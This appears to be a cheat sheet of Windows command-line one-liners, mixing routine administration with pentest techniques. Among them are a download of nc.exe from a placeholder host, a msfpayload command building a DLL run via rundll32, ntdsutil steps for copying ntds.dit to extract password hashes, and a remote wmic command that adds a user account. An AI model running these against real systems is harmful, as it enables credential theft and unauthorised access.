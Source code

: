 C:\> pkgmgr /iu:"TelnetClient"
Secure delete a file/folder in Windows

Sysinternals

C:\> sdelete -p 10 a.txt
To recursively delete folders:

C:\> sdelete -10 -r C:\data\
Show all startup entries while hiding Microsoft entries. CSV output

It covers more locations than Windows inbuilt tools

C:\> autorunsc -m -c
Download files via commandline using PS

PS C:\> ipmo BitsTransfer;Start-BitsTransfer -Source http://foo/nc.exe -Destination C:\Windows\Temp\
Fetch the last 10 entries from the Windows Security event log, in text format

C:\> wevtutil qe Security /c:10 /f:Text
def is XML

Create a dll that runs calc on invoke

msfpayload windows/exec cmd=calc.exe R | msfencode -t dll -o rcalc.dll

C:\> rundll32.exe rcalc.dll,1
Run a command as another user

You will be prompted for password

C:\> runas /noprofile /user:domain\username "mmc wf.msc"
Get shutdown/reboot events from the last 1000 log entries using PS

Get-EventLog -log system -n 1000 | Where {$_.eventid -eq '1074'} | fl -pr *
Create a new snapshot of the volume that has the AD database and log files

C:\> ntdsutil sn "ac i ntds" create quit quit
Mount the snapshot

Copy ntds.dit from snapshot & System hive from reg for pwd hashes

C:\> ntdsutil snapshot "list all" "mount 1" quit quit
Run a process on a remote system using wmic

C:\> wmic /node:ip process call create "net user dum dum /add"
List the machines, with usernames, that were connected via RDP

C:\> reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers" /s
List all process that are running on your system by remote users connected via RDP

C:\> query process *
Reset the Windows TCP\IP stack

netsh int ip reset c:\tcpresetlog.txt
List logged on users.

Very useful during a pentest to look for domain admins

C:\> net session | find "\\"
Set a static IP on a remote box
